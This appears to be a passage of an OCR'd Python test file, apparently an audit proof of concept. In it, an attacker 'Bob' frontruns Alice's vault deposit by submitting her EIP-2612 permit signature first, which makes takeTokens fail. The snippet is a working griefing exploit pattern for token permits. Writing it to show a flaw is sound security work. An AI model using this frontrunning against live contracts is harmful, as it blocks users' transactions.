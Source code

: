 ```python
                                            name="earlyZERO",
                                            version="1",
                                            chainId=default_chain.chain_id,
                                            verifyingContract=zero_token.address))
    
    permit_data = ILPVault.PermitData(value=permit.value,
                                      deadline=permit.deadline,
                                      v=signature[64], 
                                      r=signature[:32], 
                                      s=signature[32:64])
    

    # Bob frontrun takeTokens TX and extract permit
    # Because Bob used the specific signature `x_vault.takeTokens` will fail
   
    # Comment this section and TX takeTokens will pass
    # '''
    zero_token.permit(permit.owner, 
                      permit.spender, 
                      permit.value, 
                      permit.deadline, 
                      signature[64], 
                      signature[:32], 
                      signature[32:64], 
                      from_=bob)
    # '''

    tx = x_vault.takeTokens(amount, permit_data, from_=alice)
    print(tx.call_trace)
    assert zero_token.balanceOf(x_vault) == amount



```